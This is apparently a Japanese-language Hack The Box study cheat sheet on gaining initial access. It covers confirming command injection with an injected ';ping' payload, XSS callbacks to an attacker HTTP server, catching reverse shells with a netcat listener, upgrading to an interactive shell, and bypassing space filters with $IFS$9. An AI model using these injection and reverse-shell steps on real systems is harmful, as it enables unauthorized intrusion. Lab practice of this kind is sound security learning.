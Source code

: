# 初回アクセス

## Code Injection
Webサービスが使用可能であり、脆弱性が存在する場合は活用できる

### 疎通確認
HTBのVPNにつないでいればLAN内で完結する

#### ping
* ```tcpdump -i <ネットワークデバイス名> icmpでping```を受ける
* コマンドインジェクション等で```;ping -c 3 <受けのIPアドレス>; ```等を挿入してpingが届くか確認する

#### http
* ```python3 -m http.server -m 80```でhttp通信を受けられる
* XSS等で攻撃対象でスクリプトを動かし```http://<ip>/```へアクセスさせてリクエストが届くか確認する


### Reverse Shell
* nc -lvnp <ポート番号> で受ける
* 以下サイトでReverse Shellを貼るコマンドを生成できる
https://www.revshells.com/
* 生成したコマンドを攻撃対象に挿入する

### Interactive shell
Tabの補完や矢印キーの使用、エラー出力等の閲覧などのためにInteractive Shellを確立する
```
python3 -c 'import pty; pty.spawn("bash")'
```
Reverse Shellで上記を実行し、Ctrl + Zでバックグラウンドにする
```
stty raw -echo; fg
```
で再度Reverse Shellに入る


### 文字制限Bypass
* 入力値に空白を使用できない場合、$IFS$9で代用できる

https://www.ctfnote.com/web/os-command-injection/whitespace-bypass

